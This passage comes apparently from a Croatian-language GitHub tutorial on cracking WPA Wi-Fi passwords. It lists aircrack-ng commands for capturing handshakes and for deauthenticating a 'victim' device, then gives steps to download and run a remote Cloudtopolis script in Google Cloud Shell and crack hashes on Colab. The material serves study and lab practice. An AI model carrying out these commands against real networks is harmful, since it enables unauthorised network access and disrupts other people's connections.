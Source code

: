    6. Ukoliko dođe potvrda o uspješno dohvaćenom handshakeu, pristupa se
       sljedećem koraku
4. Konvertiranje datoteke uhvaćenog handshake na poveznici
    https://hashcat.net/cap2hccapx/
5. Pokretanje Google Shella preko poveznice
    https://ssh.cloud.google.com/cloudshell/editor?hl=en&fromcloudshell=true&shellonly=true
6. Instaliranje Cloudtopolisa u Google Shellu pokretanje sljedećih naredbi:
    1. wget https://raw.githubusercontent.com/JoelGMSec/Cloudtopolis/master/Cloudtopolis.sh
    2. chmod +x Cloudtopolis.sh
    3. ./Cloudtopolis.sh
7. Pristup Hashtopolisu na sljedećoj poveznici i sa sljedećim podacima:

![slika19](https://user-images.githubusercontent.com/37696656/109645760-91989800-7b57-11eb-8829-200cf8da1764.png)

8. Generiranje vaučera za agenta (Agents > New agent)
9. Kopirati vaučer i zalijepiti ga u poveznicu
    https://colab.research.google.com/github/JoelGMSec/Cloudtopolis/blob/master/Cloudtopolis.ipynb
    na za to predviđeno mjesto
10. Pokretanje notebooka iz prethodnog koraka
11. Kreiranje hash liste (Lists > New Hashlist) – konvertirani dohvaćeni handshake
12. Kreiranje novog taska (Tasks > New Task) – upisati naredbeni redak s vrstom napada
13. Čekati odrađivanje taska


## Korištene naredbe

```
[1] iwconfig
[2] airmon-ng check
[3] airmon-ng check kill
[4] airmon-ng start wlan0
[5] airodump-ng wlan0
[6] airodump-ng --bssid <BSSID> - c <broj kanala> - w <ime datoteke> wlan0
[7] aireplay-ng --deauth <broj deautentikacijskih paketa koji se šalju> –a 
    <MAC adresa pristupne točke> – c <MAC uređaja žrtve> wlan0
[8] wget https://raw.githubusercontent.com/JoelGMSec/Cloudtopolis/master/Cloudtopolis.sh
[9] chmod +x Cloudtopolis.sh
[10] ./Cloudtopolis.sh
```

## Literatura

```
[1] https://www.aircrack-ng.org/doku.php?id=cracking_wpa
[2] https://hashcat.net/cap2hccapx/
[3] https://hashcat.net/wiki/doku.php?id=hashcat
[4] https://github.com/s3inlc/hashtopolis
[5] https://github.com/JoelGMSec/Cloudtopolis
[6] https://ssh.cloud.google.com/cloudshell/editor?hl=en&fromcloudshell=true&shellonly=true
[7] https://colab.research.google.com/github/JoelGMSec/Cloudtopolis/blob/master/Cloudtopolis.ipynb
[8] https://ssh.cloud.google.com/devshell/proxy?authuser=0&port=8000&environment_id=default
[9] https://hashcat.net/wiki/
```

